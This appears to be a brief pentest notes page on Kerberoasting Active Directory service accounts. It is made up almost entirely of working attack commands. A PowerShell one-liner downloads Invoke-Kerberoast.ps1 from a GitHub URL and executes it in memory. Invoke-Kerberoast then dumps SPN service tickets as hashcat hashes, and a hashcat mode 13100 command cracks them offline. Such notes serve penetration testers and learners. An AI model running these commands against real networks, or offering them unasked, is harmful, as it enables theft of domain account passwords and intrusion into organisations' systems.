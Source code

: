 # Get SPN Account Ticket with Invoke-Kerberoast

### Installing Invoke-Kerberoast script

Lets first get the Powershell Invoke-Kerberoast script.

```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1')
```

***

### Loading into Memory

Now lets load this into memory:

```powershell
Invoke-Kerberoast -OutputFormat hashcat |fl
```

You should get a SPN ticket.&#x20;

<figure><img src="../../../../../../../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

***

### Cracking Hash using Hashcat

The type of hash we're cracking is **Kerberos 5 TGS-REP etype 23** and the hashcat code for this is **13100**

```bash
hashcat -m 13100 -​a 0 hash.txt wordlist --force
```

***
